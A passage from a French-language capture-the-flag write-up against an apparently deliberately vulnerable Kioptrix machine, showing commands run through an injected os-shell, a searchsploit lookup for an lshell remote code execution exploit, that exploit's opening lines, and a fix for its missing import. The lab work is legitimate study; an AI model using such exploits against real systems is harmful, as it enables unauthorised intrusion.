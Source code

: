 Je lance LinEnum pour découvrir des choses utiles pour la suite, il semble que je puisse lister le contenus de ``/root`` : 
~~~bash
os-shell> ls /root
do you want to retrieve the command standard output? [Y/n/a] 
command standard output:
---
congrats.txt
lshell-0.9.12
---
~~~
Je trouve ici une info importante, le logiciel utilisé pour créer le shell restreint cité plus haut, voyons voir si des exploits sont disponibles : 
~~~bash
root@Kali:~# searchsploit lshell                                                       
---------------------------------------------------- ----------------------------------
 Exploit Title                                      |  Path                            
                                                    | (/usr/share/exploitdb/)          
---------------------------------------------------- ----------------------------------
Horde 3.3.5 - '/Administration Interface admin/sqls | exploits/php/webapps/33408.txt   
LShell 0.9.15 - Remote Code Execution               | exploits/linux/remote/39632.py   
---------------------------------------------------- ----------------------------------
~~~
Il existe un exploit, voici les premières lignes : 
~~~python
root@Kali:~/kiopitrix-1-3# head -n 20 lshell.py 
import paramiko
import traceback
from time import sleep

#
# Exploit lshell pathing vulnerability in <= 0.9.15.
# Runs commands on the remote system.
# @dronesec
#

if len(sys.argv) < 4:
    print '%s: [USER] [PW] [IP] {opt: port}'%(sys.argv[0])
    sys.exit(1)
~~~

> Note : TOUJOURS lire les exploits que l'on utilise, voici pourquoi : 

~~~bash
root@Kali:~/kiopitrix-1-3# python lshell.py
Traceback (most recent call last):
  File "lshell.py", line 11, in <module>
    if len(sys.argv) < 4:
NameError: name 'sys' is not defined
~~~

Ici je me retrouve avec un exploit qui ne fonctionne pas, en regardant le code je remarque l'utilisation de sys pour la gestion des arguments en ligne de commande. Ce dernier n'est pas importé au début du programme. 
Je l'ajoute et lance l'exploit : 

